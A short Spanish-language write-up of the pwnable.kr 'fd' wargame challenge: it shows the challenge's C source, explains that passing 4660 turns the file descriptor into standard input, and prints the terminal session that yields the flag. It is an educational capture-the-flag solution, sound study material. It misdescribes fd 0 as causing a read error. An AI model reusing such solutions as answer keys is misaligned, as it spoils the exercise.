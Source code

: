 # fd - pwnable.kr

## Analisis del código

El servidor contiene dos archivos, un binario y lo que asumimos que es su código fuente.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
    if(argc<2){
        printf("pass argv[1] a number\n");
        return 0;
    }
    int fd = atoi( argv[1] ) - 0x1234;
    int len = 0;
    len = read(fd, buf, 32);
    if(!strcmp("LETMEWIN\n", buf)){
        printf("good job :)\n");
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;

}
```

Vemos que el programa recibe un argumento al que le resta 0x1234 (4660 en decimal) y guarda el resultado en **fd** (descriptor de fichero).
Seguidamente, lee el archivo descrito por fd y lo almacena en **buff**. Finalmente, comprueba si buff es igual a la cadena *LETMEWIN* y,
en caso de serlo, nos muestra la flag.

## Explotación

Si buscamos en el manual, podemos ver que la función **read** puede generar errores en caso de recibir un descriptor igual a cero.

Por tanto, podemos tratar de poner dicho descriptor a cero, introduciendo como parámetro 4660 (0x1234 - 0x1234 = 0). Si probamos,
se nos quedará el programa en la función *read* a la espera de que introduzcamos un valor manualmente, introducimos *LETMEWIN* y
vemos que nos reporta la flag.

```fd
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```
